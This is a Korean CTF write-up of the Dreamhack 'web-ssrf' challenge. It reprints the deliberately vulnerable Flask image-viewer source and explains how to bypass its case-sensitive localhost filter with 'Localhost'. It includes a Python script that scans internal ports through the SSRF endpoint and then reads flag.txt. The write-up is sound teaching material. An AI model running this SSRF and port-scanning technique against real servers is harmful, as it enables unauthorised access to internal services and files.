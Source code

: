 ```yaml
---
title: "[CTF] 드림핵 web-ssrf"
date: 2025-09-19 21:20:00 +0900
categories: [CTF, Web]
tags: [CTF, SSRF]
description: "드림핵 web-ssrf"
author: "송지민"
toc: true
---
```


## 문제 개요

이번 문제는 외부 이미지를 받아와 base64로 인코딩해 보여주는 간단한 이미지 뷰어이다. 내부적으로는 `requests.get()`로 URL을 가져오며, 내부 localhost(127.0.0.1) 또는 `localhost` 도메인을 포함하면 미리 준비된 `error.png`를 대신 반환한다. 그러나 내부에서 별도로 띄운 로컬 HTTP 서버가 `127.0.0.1:1500-1800` 사이의 랜덤 포트로 실행 중이므로, SSRF를 이용해 해당 포트에서 `flag.txt`를 읽어올 수 있다.

* 엔드포인트: `/img_viewer` (GET: 폼, POST: `url` 파라미터로 이미지 URL 전송)
* 핵심 취약점: 외부 URL을 서버에서 가져오지만, localhost 필터 우회 및 내부 포트 스캐닝으로 내부 서버 자원 접근 가능
* FLAG 위치: `/flag.txt` (애플리케이션 루트)

---

## 문제에 제공된 원본 소스코드

아래는 문제에서 제공된 `app.py` 전체 소스코드이다.

```python
#!/usr/bin/python3
from flask import (
    Flask,
    request,
    render_template
)
import http.server
import threading
import requests
import os, random, base64
from urllib.parse import urlparse

app = Flask(__name__)
app.secret_key = os.urandom(32)

try:
    FLAG = open("./flag.txt", "r").read()  # Flag is here!!
except:
    FLAG = "[**FLAG**]"


@app.route("/")
def index():
    return render_template("index.html")


@app.route("/img_viewer", methods=["GET", "POST"])
def img_viewer():
    if request.method == "GET":
        return render_template("img_viewer.html")
    elif request.method == "POST":
        url = request.form.get("url", "")
        urlp = urlparse(url)
        if url[0] == "/":
            url = "http://localhost:8000" + url
        elif ("localhost" in urlp.netloc) or ("127.0.0.1" in urlp.netloc):
            data = open("error.png", "rb").read()
            img = base64.b64encode(data).decode("utf8")
            return render_template("img_viewer.html", img=img)
        try:
            data = requests.get(url, timeout=3).content
            img = base64.b64encode(data).decode("utf8")
        except:
            data = open("error.png", "rb").read()
            img = base64.b64encode(data).decode("utf8")
        return render_template("img_viewer.html", img=img)


local_host = "127.0.0.1"
local_port = random.randint(1500, 1800)
local_server = http.server.HTTPServer(
    (local_host, local_port), http.server.SimpleHTTPRequestHandler
)


def run_local_server():
    local_server.serve_forever()


threading._start_new_thread(run_local_server, ())

app.run(host="0.0.0.0", port=8000, threaded=True)
```

---

## 내가 실제로 푼 방법

서버는 `localhost`/`127.0.0.1`을 포함하는 URL에 대해 직접 차단(대신 `error.png` 반환)을 하고, URL이 `/`로 시작하면 `http://localhost:8000`으로 강제 변환한다. 그러나 문제는 서버 내부에 별도로 `127.0.0.1`에서 `1500`\~`1800` 사이의 랜덤 포트로 로컬 HTTP 서버가 띄워져 있다는 점이다. 이 서버는 외부에서 직접 알려주지 않으므로 포트를 스캔해 찾아야 한다.

우회 전략은 다음과 같다.

1. `/img_viewer`에 POST로 `url`을 보낼 때, `localhost` 필터링에 걸리지 않는 형태(예: `Localhost` 대소문자 조합)를 사용하거나, 프로토콜/호스트 표기에서 필터를 우회한다. (문제의 소스는 `"localhost" in urlp.netloc` 체크를 사용하므로 `Localhost`처럼 대소문자 변경으로 우회 가능하다.)
2. 1500\~1800 범위의 포트를 하나씩 시도해 내부 서버가 응답하는 포트를 찾는다. 내부 서버가 해당 포트에 있으면 `requests.get()`이 성공하고, 반환된 이미지(base64 문자열)를 이용해 내부 파일(`/flag.txt`)를 가져올 수 있다.

내가 사용한 포트 스캐닝 스크립트(요약):

```python
#!/usr/bin/python3
import requests
import sys
from tqdm import tqdm

# `src` value of "NOT FOUND X"
NOTFOUND_IMG = "iVBORw0KG"

def send_img(img_url):
    global chall_url
    data = {
        "url": img_url,
    }
    response = requests.post(chall_url, data=data)
    return response.text
    
    
def find_port():
    for port in tqdm(range(1500, 1801)):
        img_url = f"http://Localhost:{port}"
        if NOTFOUND_IMG not in send_img(img_url):
            print(f"Internal port number is: {port}")
            break
    return port
    
    
if __name__ == "__main__":
    chall_port = int(sys.argv[1])
    chall_url = f"http://host1.dreamhack.games:{chall_port}/img_viewer"
    internal_port = find_port()
```

* 스크립트는 challenge 엔드포인트에 `url` 파라미터로 `http://Localhost:{port}`을 보내고, 응답 HTML에 포함된 base64 이미지의 시작값(`iVBORw0KG`)을 검사하여 정상 이미지인지(=internal server responded) 확인한다. `error.png`의 base64는 `iVBORw0KG`로 시작하므로 이를 기준으로 필터한다.

포트를 찾으면 최종적으로 다음과 같이 요청해 내부 서버에서 `flag.txt`를 가져온다:

```
http://Localhost:{FOUND_PORT}/flag.txt
```

이 값을 `/img_viewer`에 넣어 POST하면, 서버가 내부 포트에서 파일 내용을 가져와 base64로 인코딩해 HTML에 넣어준다. 브라우저에서 img src에 포함된 base64를 디코딩하면 flag.txt의 내용이 나온다.

---

## 재현 흐름

1. 공격자: 포트 스캐너 스크립트 실행 → `/img_viewer`에 차례로 `http://Localhost:{port}` 전송
2. 서버: 내부 포트에서 응답이 있을 때 HTML에 정상 이미지(base64) 포함
3. 공격자: 정상 응답 포트 확인 → `/img_viewer`에 `http://Localhost:{found_port}/flag.txt` 전송
4. 서버: 내부 서버에서 `flag.txt`를 가져와 base64로 인코딩해 HTML에 포함 → 공격자가 디코딩하여 FLAG 확인

---

## 왜 이게 가능했나

* 서버는 내부 `127.0.0.1`/`localhost` 접근을 단순히 문자열 포함 검사로 차단했으며, 이 검사는 대소문자나 포맷 조작으로 우회될 수 있다.
* 내부 HTTP 서버가 외부에 알려지지 않은 포트 범위(1500–1800)에 실행되고 있어, 포트 스캐닝으로 해당 포트를 찾을 수 있다.
* 서버가 가져온 컨텐츠를 그대로 base64로 변환해 페이지에 넣기 때문에 내부 파일 내용도 노출 가능했다.

---

## 마무리

이번 문제는 전형적인 SSRF + 포트 스캐닝 결합 문제였다. `localhost` 필터를 단순 문자열 검사로 처리하거나, 내부 서비스 포트를 미리 알려주지 않는다고 해도 포트 스캐닝과 소문자/대문자 우회로 쉽게 내부 리소스에 접근할 수 있음을 보여준다.
